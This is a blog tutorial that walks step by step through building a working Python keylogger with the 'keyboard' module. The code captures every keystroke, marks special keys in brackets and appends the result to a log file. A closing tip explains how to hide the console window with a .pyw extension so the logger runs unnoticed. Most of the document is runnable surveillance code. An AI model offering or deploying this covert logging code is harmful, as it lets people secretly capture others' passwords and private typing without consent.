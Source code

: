 ```yaml
---
title: Designing A Simple Keylogger In Python  
description: A tutorial which teaches you how to develop a simple keylogger in Python. Keyloggers are applications which are used to log keys when typed, naturally, keyloggers are not illegal unless used unlawful purposes 
category: Programming 
image: https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/hero.jpg
keywords: keylogger, keylogging in python, python keylogger
date: 2021-04-24
---
```


[TOC]

>**Keystroke logging**, often referred to as **keylogging** or **keyboard capturing**, is the action of recording (logging) the keys struck on a keyboard, [1](https://en.wikipedia.org/wiki/Keystroke_logging#cite_note-1) typically covertly, so that a person using the keyboard is unaware that their actions are being monitored. Data can then be retrieved by the  person operating the logging program. A **keystroke recorder** or **keylogger** can be either software or [hardware](https://en.wikipedia.org/wiki/Computer_hardware).
>
>~ [Wikipedia](https://en.wikipedia.org/wiki/Keystroke_logging) ~

The above context is extracted from Wikipedia and it explains what a keylogger is and what it does. Well, I hope most of you know what a keylogger is. Keyloggers are in two forms, software and hardware but the one we are going to be creating today is the software form of a keylogger. It is going to listen to all the key strokes and log them to a file. Cool right?

Before we start, you need to be conversant with the python programming language, it is what we are going to use in this tutorial. Let's get started.

## Installing the required modules

We are going to use the [keyboard](https://pypi.org/project/keyboard/) module for the keylogger.  To install it, open your terminal type in `pip install keyboard`. If no error occured, you are good to go.

After that, open a new python file and let's start coding :dark_sunglasses:

## Creating the logger function

```python
import keyboard #The keyboard module

def logger(event):
	print(event.name)

keyboard.on_press(logger)
keyboard.wait()
```

I can say we are done, maybe above 50% done. Let me explain the code; on the first line, we imported the `keyboard` module. Then we defined our `logger(event)` function, it takes `event` as parameter and then it print's it's `.name` out. Then to the next line, we assigned the `logger` function as a parameter to the `keyboard.on_press` method. The `keyboard.on_press` method takes a function as parameter and passes an event to it. Then to the last line, the `keyboard.wait` makes the program run without closing, it acts like a while loop.

If we are to run our code in the terminal, it runs successfully without any errors. However, there is a problem, try typing this sentence after activating the logger `"am a hacker"`.
<img class="Sirv" data-src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/before_filter.gif" alt="" />

We really might not see the effect because, when the program is ran on the terminal, each character is printed on a new line but if the results were stored in  a file, this is how it will look.

<img class="Sirv" data-src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/before_filter_txt.png" alt="" />

You might be confused, let me explain, when special keys are pressed, their names are returned and thus it makes it difficult for us to know if it was a character or special key. For example, if a user presses <kbd>space</kbd>, it will print out "space" or if <kbd>enter</kbd>, it will print out "enter", when this data is appended to a file, it just adds up to the letters and makes it difficult for us to know whether it was a special key or not. 

## Solving the special key problem

Fortunately, there is a solution to this problem, the only thing we need to do is find a way to mark special keys so we will be able to differentiate between the two. To do so, we create another function called `filter(char)` which will filter the results before writing it to a file. It takes a character as parameter and surround the `char` with `[]` if it is a special key else, it will just go ahead and write it to a file.

```python
def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char
```

Well, this new code just popped into my head :laughing: , the first time I made the `filter` function, it was like this.

<img class="Sirv" data-src="https://kudadam.sirv.com/blog/designing_a_keylogger_in_python/first_filter_function.png" alt="" />

This function above was  98 lines, this was because,  I hard-coded every key inside my function, but now, I use a simple logic for the filter function. if we are to look at all the "special keys", we will find out that the  length of their name is more than one whereas the length of normal characters or letters is one. So in our new `filter` function, we first checked if the `char == 'space'`,  we then return `" "` if true. Then on the next line, we check if the length of the `char` is greater than one, if it is, then it means it is a special key so we wrap `[]`around it. else, we just return the `char`. Now our keylogger logs the characters much better.

```python
import keyboard #The keyboard module

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	print(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

Now, we are 95% done, our keylogger works as expected but it's not logging to any file. It's only writing to stdout. In order to make a real keylogger, we need to log the output to a file.

## Logging  data to a file

The final step is to create a function which will write the data to a file. 

```python
import keyboard #The keyboard module

def writer(data):
    with open("logs.txt","a") as file:
        file.write(data)

def filter(char):
	if char == "space":
		return " "
	elif len(char) > 1:
		return "[%s]" % char
	else:
		return char

def logger(event):
	writer(filter(event.name))

keyboard.on_press(logger)
keyboard.wait()
```

We created a function called `writer` which takes `data` as parameter, it then writes the data to a file named "logs.txt", the file is going to be located in the directory as the python file. 

Let's have a look at our `logger` function again, we called the `writer` function and we passed the `event.name` to it but we wrapped it with the `filter` function to filter it and that's our keylogger.  just run your python file and you are good to go

**Tip:** You can hide the console from popping up if you save your python file with a .pyw extension 